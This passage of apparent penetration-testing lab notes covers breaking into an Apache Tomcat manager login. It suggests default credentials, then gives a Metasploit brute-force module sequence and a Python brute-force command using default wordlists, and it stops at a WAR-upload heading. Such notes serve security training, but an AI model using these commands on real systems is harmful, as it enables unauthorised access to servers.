     # we can try logging into either /manager or /host-manager using default creds
    # like tomcat:tomcat or admin:admin before bruteforce
    ```
  
  * login bruteforce:

    ```sh
    # using metasploit
    msfconsole -q

    use auxiliary/scanner/http/tomcat_mgr_login

    set VHOST web01.inlanefreight.local
    set RPORT 8180
    set STOP_ON_SUCCESS true
    set RHOSTS 10.129.201.58

    options

    run
    # check if creds found

    # if we want to check the tool functioning
    # set proxy to troubleshoot

    set PROXIES HTTP:127.0.0.1:8080

    run
    # now we can view in Burp Suite or ZAP
    # and see the requests being sent with base64-encoding in Authorization header

    # alternatively, we can also use a Python script like Tomcat-Manager-Bruteforce
    python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
    ```
  
  * WAR file upload:
